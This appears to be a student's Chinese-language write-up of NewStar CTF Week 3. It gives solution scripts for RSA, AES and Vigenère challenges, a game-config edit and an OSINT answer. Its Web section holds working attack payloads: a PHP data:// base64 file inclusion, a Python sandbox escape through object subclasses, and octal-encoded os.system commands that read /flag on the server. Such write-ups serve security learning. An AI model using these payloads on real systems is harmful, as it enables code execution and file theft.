









# NewStar CTF Week3 WriteUp

Author: 夏槿 23366091 中山大学网络空间安全学院郑梓炫 Date:10/15/2024

# Crypto

## newstory1

维吉尼亚密码，工具题。

相关的工具和Blog：

https://cloud.tencent.com/developer/article/1076719

[https://www.guballa.de/vigenere-solver](https://www.guballa.de/vigenere-solver)



## newstory2

工具同上，改成Auto模式。。。



## 不用谢喵

分组解密模式。蛮有趣的捏

``` python
from Crypto.Cipher import AES
from Crypto.Util.number import *
import os


Ctext1 = "f2040fe3063a5b6c65f66e1d2bf47b4c"

Dtext2 = "94686e847d72141b3a955a4f6e920e7d"

Ptext2 = int(Ctext1,16)^int(Dtext2,16)

print(long_to_bytes(Ptext2))

"""
b'flag{HOw_c4REfu1'
"""
Ctext2 = "ddb206e4ddcf7524932d25e92d57d346"
Dtext3 = "91cb599d92ba2a6ba51860bb5b32f23b"

Ptext3 = int(Ctext2,16)^int(Dtext3,16)

print(long_to_bytes(Ptext3))

"""
b'Ly_yOu_O65ERve!}'
"""

# flag{HOw_c4REfu1Ly_yOu_O65ERve!}
```



## 两个黄鹂鸣翠柳

相关的文章：

https://www.ruanx.net/coppersmith/
https://www.cnblogs.com/ForBreeze/articles/18008609#_label6_0

用Sage解一下。枚举一下两个$t_1,t_2$ 容易得到规律，于是把复杂度降低后很快得到答案：

``` python
e =  683
c1 =  56853945083742777151835031127085909289912817644412648006229138906930565421892378967519263900695394136817683446007470305162870097813202468748688129362479266925957012681301414819970269973650684451738803658589294058625694805490606063729675884839653992735321514315629212636876171499519363523608999887425726764249
c2 =  89525609620932397106566856236086132400485172135214174799072934348236088959961943962724231813882442035846313820099772671290019212756417758068415966039157070499263567121772463544541730483766001321510822285099385342314147217002453558227066228845624286511538065701168003387942898754314450759220468473833228762416
n =  147146340154745985154200417058618375509429599847435251644724920667387711123859666574574555771448231548273485628643446732044692508506300681049465249342648733075298434604272203349484744618070620447136333438842371753842299030085718481197229655334445095544366125552367692411589662686093931538970765914004878579967
delta =  93400488537789082145777768934799642730988732687780405889371778084733689728835104694467426911976028935748405411688535952655119354582508139665395171450775071909328192306339433470956958987928467659858731316115874663323404280639312245482055741486933758398266423824044429533774224701791874211606968507262504865993

# c1 = (m+delta*t1)^e
# c2 = (m+1)^e

from Crypto.Util.number import *


def myGcd(x, y):
    if y == 0:
        return x.monic()
    return myGcd(y, x%y)

for i in range(74,256):
        R.<x> = PolynomialRing(Zmod(n))
        g1 = (x+i*delta)^e - c1
        g2 = (x+(i-74)*delta)^e - c2
        v = myGcd(g2,g1)
        print(i,i-74)
        M = n - int(v.coefficients()[0])
        if g1(M) == 0:
            print(long_to_bytes(M))
```




## 没e这能玩？

求解离散对数问题，用Sage解决。

过程如下：

``` python
#!/usr/bin/python3

h1 = 31142735238530997044538008977536563192992446755282526163704097825748037157617958329370018716097695151853567914689441893020256819531959835133410539308633497
h2 = 83244528500940968089139246591338465098116598400576450028712055615289379610182828415628469144649133540240957232351546273836449824638227295064400834828714760
h3 = 248913032538718194100308575844236838621741774207751338576000867909773931464854644505429950530402814602955352740032796855486666128271187734043696395254816172


p = 3*h1-h2
r = (9*h1-h3)//3
q = h1 - p - r


print("p =",p)
print("q =",q)
print("r =",r)

"""
p = 10183677214652023044474780341271224480860741865271128462400237861954731862671046572481587003643951915319746511716779405224320633957652210335830783097185731
q = 10501863154525380899885393651734595340401622693414265402191855789807170977044584937255025740961595981958235238915269093897387769735490697411913603370485999
r = 10457194869353593100177834984530743371730082196597132299112004173986134317902326819633405971492147254575586164057393393898548415838816927385666152840961767
"""

# SageMath:https://sagecell.sagemath.org/
# a_big_prime = 10340528340717085562564282159472606844701680435801531596688324657589080212070472855731542530063656135954245247693866580524183340161718349111409099098622379
# hint = 1117823254118009923270987314972815939020676918543320218102525712576467969401820234222225849595448982263008967497960941694470967789623418862506421153355571
# c = 999238457633695875390868312148578206874085180328729864031502769160746939370358067645058746087858200698064715590068454781908941878234704745231616472500544299489072907525181954130042610756999951629214871917553371147513692253221476798612645630242018686268404850587754814930425513225710788525640827779311258012457828152843350882248473911459816471101547263923065978812349463656784597759143314955463199850172786928389414560476327593199154879575312027425152329247656310
# print(discrete_log(mod(hint,2**512),mod(a_big_prime,2**512)))

"""
e = 18344052974846453963
"""


from Crypto.Util.number import *
e = 18344052974846453963
n = p*q*r
fi  = (p-1)*(q-1)*(r-1)
d = inverse(e,fi)
c = 999238457633695875390868312148578206874085180328729864031502769160746939370358067645058746087858200698064715590068454781908941878234704745231616472500544299489072907525181954130042610756999951629214871917553371147513692253221476798612645630242018686268404850587754814930425513225710788525640827779311258012457828152843350882248473911459816471101547263923065978812349463656784597759143314955463199850172786928389414560476327593199154879575312027425152329247656310
m = pow(c,d,n)
print(long_to_bytes(m))
```

# Misc

## AmazingGame

通关第一关然后改一下配置就好了。第20关赢不赢都能得到的

``` xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <int name="controlMode2" value="1" />
    <int name="unlockedsolotracks" value="20" />
    <boolean name="vibrate" value="true" />
    <int name="unlockedtracks" value="20" />
    <int name="best0m0" value="132" />
    <int name="unlockedships" value="6" />
    <int name="userid" value="9792226" />
</map>
```


## BGM

用Au把音频搞一下然后用对应的工具 `dtmf2num` 得到。



## ez_jail

嗯 搜索一下 `C++奇淫巧计` 于是就可以得到了。

相关的代码，代码转换成base64，得到flag

``` cpp
void user_code()<%printf("Hello, World!");%>;


dm9pZCB1c2VyX2NvZGUoKTwlcHJpbnRmKCJIZWxsbywgV29ybGQhIik7JT47

https://mainvooid.github.io/posts/C++%E5%A5%87%E6%B7%AB%E5%B7%A7%E8%AE%A1.html
```



## OSINT

图片上有 飞机机号和拍摄时间。

B-2419
flag{MU5156_济宁市}
https://www.flightera.net/zh/flight_details/China+Eastern+Airlines/MU5156/ZBAA/2024-08-18

# Web

## Include Me

``` php
http://eci-2ze40zr0srdj3ts2cctb.cloudeci1.ichunqiu.com/?iknow=1&me=data://text/plain;base64,PD9waHAgaW5jbHVkZSIvZmxhZyI7Pz4

<?php include"/flag";?>
```

用这个！包一下。



## 臭皮踩踩背

绕过 绕过 绕过。用奇奇怪怪的对象方式就可以搞到了！

``` 
https://note.tonycrane.cc/ctf/misc/escapes/pysandbox/#object

[].__class__.__base__.__subclasses__()

[].__class__.__base__.__subclasses__()[99].get_data("","flag")      
b'flag{5779d077-24f8-4879-af6f-28232790ae9f}\n'
```





## 臭皮的计算机

这是绕过的过程。

``` 
os.system('whoami')

\157\163\056\163\171\163\164\145\155\050\047\167\150\157\141\155\151\047\051

Result: root 0


os.system('ls /')

\157\163\056\163\171\163\164\145\155\050\047\154\163\040\057\047\051

Result: app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 0

os.system('cat /flag')

\157\163\056\163\171\163\164\145\155\050\047\143\141\164\040\057\146\154\141\147\047\051\012

Result: flag{69a179f7-e134-4049-9a80-0f68fd93024e} 0
```

